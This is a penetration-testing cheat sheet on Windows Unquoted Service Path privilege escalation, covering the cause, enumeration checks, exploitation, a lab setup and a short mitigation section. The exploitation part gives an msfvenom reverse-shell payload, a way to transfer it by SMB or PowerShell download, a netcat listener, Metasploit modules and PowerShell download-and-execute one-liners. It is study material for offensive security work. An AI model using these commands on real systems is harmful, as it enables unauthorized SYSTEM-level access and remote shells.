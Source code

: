 ```yaml
---
title: "Unqoted Service Paths"
tags: 
- sheets
---
```


When a **service** is created whose **executable path** contains **_spaces_** and isn’t enclosed within **_quotes_**, leads to a vulnerability known as Unquoted Service Path which allows a user to gain **SYSTEM** privileges *(only if the vulnerable service is running with SYSTEM privilege level which most of the time it is)*. This happens due to how Windows handles spaces: if the service is not enclosed within quotes & is having spaces => it would handle the space as a break and pass the rest of the service path as an argument.


## Root Cause
This is caused by the [CreateProcess](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessa) function which creates a new process. More specifically the `lpApplicationName` string parameter which can be the full path / filename of the module to be executed. If the filename is a long string spanning acrosss multiple sub directories, contains spaces and is not enclosed in quotation marks, it will be executed in the order from left to right until the space is reached & will append `.exe` @ the end of this spaced path. 

### Example
- Consider the following path: `C:\Program Files\A Sub\B Sub\C Sub\executeMe.exe`
- In order to run `executeMe.exe` the Windows API will interpret it in the following order
	- `C:\Program.exe`
	- `C:\Program Files\A.exe`
	- `C:\Program Files\A Sub\B.exe`
	- `C:\Program Files\A Sub\B Sub\C.exe`
	- `C:\Program Files\A Sub\B Sub\C Sub\executeMe.exe`
- If `Program.exe` is not found, then `A.exe` will be executed and so on



## CheckList
- [ ] List all unquoted service paths *(minus built-in Windows services)*. Are there any available?
	```bash
	wmic service get name,pathname,displayname,startmode | findstr /i auto | findstr /i /v "C:\Windows\\" | findstr /i /v """
	wmic service get name,displayname,pathname,startmode | findstr /i /v "C:\\Windows\\system32\\" |findstr /i /v """
	gwmi -class Win32_Service -Property Name, DisplayName, PathName, StartMode | Where {$_.StartMode -eq "Auto" -and $_.PathName -notlike "C:\Windows*" -and $_.PathName -notlike '"*'} | select PathName,DisplayName,Name # (PS)
	```
- [ ] With what priviliges is the targetted service running *(should be as `LocalSystem`)* & what's the absolute path of the executable ?
	```bash
	sc qc <service-name> 
	# Look for the following
	#  START_TYPE is it AUTO_START?
	#  BINARY_PATH_NAME
	#  SERVICE_START_NAME
	```
- [ ] Does your user have write access in one of the folders where the binary path resides?
	```bash
	# Do this for every one of them 
	icacls "C:\path\to\dir\of\your\subdir"
	Get-acl 'C:\path\to\dir' | % {$_.access}   # (PS)
	# Looking for write acesss on one of your groups (e.g BUILTIN\Users)
	```
- [ ] Do u have the rights to restart the service? If not, it should be an auto-start service so that upon rebooting the system it communicates with the [Service Control Manager](https://docs.microsoft.com/en-us/windows/win32/services/service-control-manager) & gets your payload executed
	```bash
	# If you're confused about what this command spits out
	# check out this: http://woshub.com/set-permissions-on-windows-service/
	sc sdshow <service-name>
	```

## Exploitation
Considering that we have a low privilege shell already on the target system & all of the requirments above are met. Then we can just drop our malicious executable `B.exe` in `C:\Program Files\A Sub\`. When the system boots, Windows auto starts some of its services. Services on Windows communicate with the [_Service Control Manager_](https://en.wikipedia.org/wiki/Service_Control_Manager) which is responsible to start, stop and interact with these service processes. It starts this service with whatever privileges it has to run, thus letting us run whatever we want as `SYSTEM`*(read more [here](https://stackoverflow.com/questions/510170/the-difference-between-the-local-system-account-and-the-network-service-acco) about differences between accounts & privileges)*

> For a more concrete example check out [[write-ups/thm/Steel Mountain#Privesc w Unquoted Service Path]] 

### Manual
```bash
# Generate payload
msfvenom -p windows/shell_reverse_tcp LHOST=wlan0 LPORT=1337 -f exe -o B.exe

# Transfer to target

# through impacket's smb server
host: python /usr/share/doc/python-impacket/examples/smbserver.py sharedfolder .
target: copy \\LHOST\sharedfolder\B.exe .
# or powershell
powershell -Command Invoke-WebRequest -Uri http://LHOST/B.exe -OutFile B.exe

# Start listener 
nc -nvlp 1337

# Restart service & profit
sc stop <service-name>
sc start <service-name>
# if access is denied just reboot
shutdown /r /t 0
```


### Metasploit

```bash
# Setup listener
use exploit/multi/handler  
set payload windows/meterpreter/reverse_tcp  
set lhost <ip>
set lport <port>
exploit -j

# Exploit
use exploit/windows/local/trusted_service_path  
set session 1  
exploit
```

### PowerSploit
- Get a local copy of [PowerUp](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1)
```bash
# Setup local http/smb server to serve PowerUp

# Call Get-ServiceUnquoted from PowerUp without touching the disk
powershell -nop -exec bypass -c "IEX(New-Object Net.WebClient).DownloadString('http://LHOST/PowerUp.ps1');Get-ServiceUnquoted"

# Checks for every spaced path, whether the context of the cmd shell  have write/modify access or not.
powershell -nop -exec bypass -c "IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1');Get-ChildItem C:\ -Recurse | Get-ModifiablePath"

# patches the command given to it as an argument to the pre-compiled C# executable service binary to the specified path.
powershell -nop -exec bypass -c "IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1');Write-ServiceBinary -Name 'Some Vulnerable Service' -Command '\\LHOST\sharedfolder\B.exe' -Path 'C:\Program Files\A Subfolder\B.exe'"
```


## Lab Environment Setup

### Creating users
```bash
# Create a new user & add him to the Administrators group
net user dumbadmin /add
net localgroup Administrators dumbadmin /add
net localgroup Users dumbadmin /delete

# Create a low-privileged user
net user normie /add
```

This is what you should have now

![[write-ups/images/Pasted image 20220821085517.png]]

### Deploy vulnerable service
Login as the `dumbadmin` user & spawn a priviliged command prompt, then use [sc](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/sc-create) to create the service
```bash
sc create "Vulnerable Service" binpath= "C:\Program Files\A Sub\B Sub\C Sub\ape.exe" Displayname= "Service Vuln to Unqoted Service Path" start= auto
```

Now create the folders & assign write permissions to `BUILTIN\Users` on `A Sub` or `B Sub` using [icacls](https://ss64.com/nt/icacls.html)
```bash
mkdir "C:\Program Files\A Sub\B Sub\C Sub"
icacls "C:\Program Files\A Sub"
icacls "C:\Program Files\A Sub" /grant "BUILTIN\Users":W
```

![[write-ups/images/Pasted image 20220821090209.png]]

The part we're interested in is the first line: `A Sub BUILTIN\Users:(W)`. This confirms that any normal users have write access to the `A Sub` directory
To finally verify that everything is running as expected we can find every service which isn't enclosed in double quotes

![[write-ups/images/Pasted image 20220821090532.png]]

## Mitigation
Gets all the services from `HKLM\SYSTEM\CurrentControlSet\services` & find those services with spaces and without quotes, prepends and appends double quotes to the service binary executable and fixes it.

## Refs
- [Windows Privilege Escalation — Part 1 (Unquoted Service Path)](https://medium.com/@SumitVerma101/windows-privilege-escalation-part-1-unquoted-service-path-c7a011a8d8ae)
- [Hijack Execution Flow: Path Interception by Unqoted Path -- MITRE](https://attack.mitre.org/techniques/T1574/009/)

## See Also